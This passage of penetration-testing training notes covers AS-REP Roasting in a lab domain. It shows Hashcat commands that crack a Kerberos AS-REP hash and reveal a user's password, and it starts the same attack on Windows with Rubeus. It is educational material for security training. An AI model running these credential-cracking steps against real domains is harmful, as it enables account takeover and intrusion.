 By default, the resulting hash format of `impacket-GetNPUsers` is compatible with Hashcat
+ Therefore, let's check the correct mode for the AS-REP hash by grepping for "Kerberos" in the Hashcat help
```
kali@kali:~$ hashcat --help | grep -i "Kerberos"
  19600 | Kerberos 5, etype 17, TGS-REP                       | Network Protocol
  19800 | Kerberos 5, etype 17, Pre-Auth                      | Network Protocol
  19700 | Kerberos 5, etype 18, TGS-REP                       | Network Protocol
  19900 | Kerberos 5, etype 18, Pre-Auth                      | Network Protocol
   7500 | Kerberos 5, etype 23, AS-REQ Pre-Auth               | Network Protocol
  13100 | Kerberos 5, etype 23, TGS-REP                       | Network Protocol
  18200 | Kerberos 5, etype 23, AS-REP                        | Network Protocol
```
+ The output of the grep command in listing 15 shows that the correct mode for AS-REP is _18200_

We've now collected everything we need to launch Hashcat and crack the AS-REP hash
+ Let's enter the mode **18200**, the file containing the AS-REP hash, **rockyou.txt** as wordlist, **best64.rule** as rule file, and **--force** to perform the cracking on our Kali VM
```
sudo hashcat -m 18200 <HASH_FILE> /usr/share/wordlists/rockyou.txt -r /usr/share/hashcat/rules/best64.rule --force
```
+ Example output:
```
kali@kali:~$ sudo hashcat -m 18200 hashes.asreproast /usr/share/wordlists/rockyou.txt -r /usr/share/hashcat/rules/best64.rule --force
...

$krb5asrep$23$dave@CORP.COM:b24a619cfa585dc1894fd6924162b099$1be2e632a9446d1447b5ea80b739075ad214a578f03773a7908f337aa705bcb711f8bce2ca751a876a7564bdbd4a926c10da32b03ec750cf33a2c37abde02f28b7ab363ffa1d18c9dd0262e43ab6a5447db44f71256120f94c24b17b1df465beed362fcb14a539b4e9678029f3b3556413208e8d644fed540d453e1af6f20ab909fd3d9d35ea8b17958b56fd8658b144186042faaa676931b2b75716502775d1a18c11bd4c50df9c2a6b5a7ce2804df3c71c7dbbd7af7adf3092baa56ea865dd6e6fbc8311f940cd78609f1a6b0cd3fd150ba402f14fccd90757300452ce77e45757dc22:Flowers1
...
```
+ Hashcat successfully cracked the AS-REP hash
+ Above shows that the user _dave_ has the password _Flowers1_
+ **NOTE**: If you receive the Hashcat error "Not enough allocatable device memory for this attack", shut down your Kali VM and add more RAM to it. 4GB is enough for the examples and exercises of this Module

As mentioned, we can also perform AS-REP Roasting on Windows
+ We'll use _Rubeus_, which is a toolset for raw Kerberos interactions and abuses
+ To perform this attack, we'll connect to CLIENT75 via RDP as domain user _jeff_ with the password _HenchmanPutridBonbon11_
+ Next, we can start a PowerShell window and navigate to **C:\Tools**, where **Rubeus.exe** can be found

#### AS-REP Roasting With Rubeus on Windows
Since we're performing this attack as a pre-authenticated domain user, we don't have to provide any other options to Rubeus except **asreproast**
+ Rubeus will automatically identify vulnerable user accounts
+ We also add the flag **/nowrap** to prevent new lines being added to the resulting AS-REP hashes
```
.\Rubeus.exe asreproast /nowrap
```
+ Example:
```
PS C:\Users\jeff> cd C:\Tools

PS C:\Tools> .\Rubeus.exe asreproast /nowrap

   ______        _
  (_____ \      | |
   _____) )_   _| |__  _____ _   _  ___
```